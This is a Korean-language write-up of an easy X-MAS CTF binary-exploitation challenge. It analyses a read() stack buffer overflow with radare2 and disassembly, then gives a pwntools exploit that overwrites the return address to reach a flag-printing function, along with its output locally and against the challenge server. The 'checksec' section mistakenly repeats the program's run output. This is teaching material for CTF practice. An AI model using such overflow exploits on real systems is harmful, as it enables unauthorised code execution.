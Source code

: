풀문제는 chall 이라는 문제입니다

실행파일이 하나 주어지는데 이 실행파일을 실행시키면
<a href="https://drive.google.com/drive/folders/1wEr6WOyw9eP4oXkfhgaIMyXIQGriEoi7">실행파일 다운로드</a>
```
root@kali:~/pwn/x# ./chall
Helloooooo, do you like to build snowmen?
test
Mhmmm... Boring...
```
입력칸이 열리고 입력을 하면 메세지를 출력합니다. 여기까지 보면 딱 버퍼 오버플로우라는게 감이 오죠.

제가 항상 분석 시작하기 전에 확인하는게 checksec 과 radare2 입니다

checksec 결과
```
root@kali:~/pwn/x# ./chall
Helloooooo, do you like to build snowmen?
test
Mhmmm... Boring...
```
radare2 결과
```
root@kali:~/pwn/x# radare2 chall
[0x00401070]> izz
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x00000034 0x00000034   4  10 () utf16le @8\v@
001 0x000002a8 0x004002a8  27  28 (.interp) ascii /lib64/ld-linux-x86-64.so.2
002 0x00000409 0x00400409   9  10 (.dynstr) ascii libc.so.6
003 0x00000413 0x00400413   4   5 (.dynstr) ascii puts
004 0x00000418 0x00400418   5   6 (.dynstr) ascii stdin
005 0x0000041e 0x0040041e   4   5 (.dynstr) ascii read
006 0x00000423 0x00400423   6   7 (.dynstr) ascii stdout
007 0x0000042a 0x0040042a   7   8 (.dynstr) ascii setvbuf
008 0x00000432 0x00400432   6   7 (.dynstr) ascii strcmp
009 0x00000439 0x00400439  17  18 (.dynstr) ascii __libc_start_main
010 0x0000044b 0x0040044b  11  12 (.dynstr) ascii GLIBC_2.2.5
011 0x00000457 0x00400457  14  15 (.dynstr) ascii __gmon_start__
012 0x000010b5 0x004010b5   5   6 (.text) ascii H=@@@
013 0x00001269 0x00401269  11  12 (.text) ascii \b[]A\A]A^A_
014 0x00002010 0x00402010  30  31 (.rodata) ascii X-MAS{REAL FLAG ON THE SERVER}
015 0x00002030 0x00402030  41  42 (.rodata) ascii Helloooooo, do you like to build snowmen?
016 0x0000205e 0x0040205e  24  25 (.rodata) ascii Me too! Let's build one!
```
radare2 밑에 결과가 더 있었는데 그냥 불필요한 결과들이여서 잘랐어요.
여기서 알 수 있는 정보들은 nx 가 있기때문에 스택에 자체에서는 코드가 실행이 안된다는거죠. 
그리고 radare2 에서 출력된 정보들을 보면 플래그가 포함되있다는 것과 read 가 있는것을 보면 
딱 여기서 read를 이용한 오버플로우로 저 플래그를 출력 가능하다는 것을 알 수 있죠.

저는 막상 바이너리 분석 할때는 binaryninja 라는 디스어셈블리어를 씁니다. 현재는 무료 데모 버젼 
사용중인데 곧있으면 구매할 계획입니다.

main 코드는 전부 넣지 않고 필요한 코드들만 넣을게요.

일단 취약점이 발생하는 구간은
```
lea     rax, [rbp-0xa {var_12}]
mov     edx, 0x64
mov     rsi, rax {var_12}
mov     edi, 0x0
mov     eax, 0x0
call    read
```
아까 예상 햇듯이 read 구간입니다. read 함수는 많이 분석해보면 알 수 있는게 
함수를 부르기 전에 edx 에 버퍼 크기를 넣고 rsi 에는 변수를 넣어줘요.
그럼 여기서 
>read(fd, var_12, 0x64)

대충 이런식으로 변수 호출이 되는 것을 알 수 있죠.
그리고 var_12 는 [rbp-0xa] 에 위치해있는것을 알 수 있고요.
오프셋을 구할려면 gef의 pattern create 과 pattern search 를 쓰면 되긴 하는데
이 바이너리가 크기가 작기도 하고 다른 변수는 선언 안했을 거 같으니 0xa(10h) + 8 = 18가 
오프셋인것을 유추 할 수 있습니다. 여기서 8을 더해준 이유는 64bit는 8이 ret 까지 닿는 거리기 때문이에요
32bit는 4 인걸로 알고 있습니다.
마지막으로 알아야할것은 아까 X-MAS{} 플래그가 위치해 있는 곳을 알아내면 되는데 binaryninja에서
함수들좀 둘러보다 보니 이런 함수가 있네요.

```
sub_401156:
push    rbp {__saved_rbp}
mov     rbp, rsp {__saved_rbp}
mov     edi, 0x402010  {"X-MAS{REAL FLAG ON THE SERVER}"}
call    puts
nop     
pop     rbp {__saved_rbp}
retn     {__return_addr}

```
아이고 웬 떡입니까. 이런 문제는 그냥 거져에요.

이제 공격코드를 생각해보면 

>"A"*18+p64(0x401156) 

대충 이런식으로 넣으면 플래그가 출력될껄 조심히 유추 할 수 있습니다.

파이썬 코드
```
from pwn import *

r = process("./chall")

payload = b"A"*18
payload += p64(0x401156)

print(r.recvline())
r.sendline(payload)
print(r.recvline())



r.interactive()

```

실행 결과
```
root@kali:~/pwn/x# python exploit.py 
[+] Starting program './chall': Done
[ERROR] Neither 'qemu-i386' nor 'qemu-i386-static' are available
b'Helloooooo, do you like to build snowmen?\n'
b'Mhmmm... Boring...\n'
[*] Switching to interactive mode
X-MAS{REAL FLAG ON THE SERVER}
[*] Got EOF while reading in interactive
$  
```
전 그냥 습관이 들어서 코드 마지막에

>r.interactive()

를 넣어준건데 굳이 넣지 않으셔도 실행 잘 됩니다.

그럼이제 서버에 연결 시키면

```
root@kali:~/pwn/x# python exploit.py 
[+] Opening connection to challs.xmas.htsp.ro on port 12006: Done
b'Helloooooo, do you like to build snowmen?\n'
b'Mhmmm... Boring...\n'
[*] Switching to interactive mode
X-MAS{700_much_5n0000w}
[*] Got EOF while reading in interactive
$  
```
사실 이런문제는 난이도가 극하여서 쓸 이유는 없지만 포너블 하지 않으시는 분들도 이정도 문제만 풀줄
아시면 괜찮을 거 같아서 한번 작성해봤습니다.





